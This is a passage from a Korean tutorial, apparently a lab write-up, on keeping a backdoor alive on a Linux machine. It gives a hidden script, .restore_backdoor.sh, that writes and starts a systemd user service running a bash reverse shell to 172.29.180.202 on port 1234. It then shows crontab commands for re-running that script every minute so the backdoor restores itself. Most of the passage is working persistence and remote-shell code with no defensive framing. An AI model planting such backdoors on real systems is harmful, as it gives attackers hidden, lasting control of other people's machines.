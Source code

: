 **3. `crontab`에 스케줄을 등록해주자.**   

스케줄은 `~/.config/systemd/user/reverse-shell.service` 경로에 있는 파일을 특정 시간마다 반복하게 해줄 건데 현재 상황을 고려해서 1분마다 반복하도록 설정해주겠다.  

우선 스케줄 등록해줄 파일부터 만들어주자.  
경로는 `nano /home/kali1/.restore_backdoor.sh` 이 위치에 숨김처리해서 올려준다.  

```bash
nano /home/kali1/.restore_backdoor.sh
```

  
```ini
#!/bin/bash

SERVICE_PATH="$HOME/.config/systemd/user/reverse-shell.service"

if [ ! -f "$SERVICE_PATH" ]; then
  mkdir -p ~/.config/systemd/user

  cat > "$SERVICE_PATH" <<EOF
[Unit]
Description=User Reverse Shell
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
Restart=always
[Install]
WantedBy=default.target
EOF

  systemctl --user daemon-reload
  systemctl --user enable reverse-shell.service
  systemctl --user start reverse-shell.service
fi
```
이렇게 파일이 없어지면 다시 복구할 수 있는 코드를 써준다.   

```bash
chmod +x ~/.restore_backdoor.sh
```
실행권한도 준다.  


<br>
<img src="https://github.com/user-attachments/assets/190b5cd5-c45f-4c33-9aeb-e620ff99db9c" width=700>  

```bash
crontab -l
crontab -u [사용자계정] -e
crontab -e
```

첫번째 명령어로 시스템에 등록된 crontab을 확인할 수 있고,  
두번째 명령어로 특정 사용자계정에 스케줄을 등록할 수 있다.  
세번째 명령어는 그냥 지금 같은 상황에서 해당 사용자의 스케줄을 등록할 수 있다.  
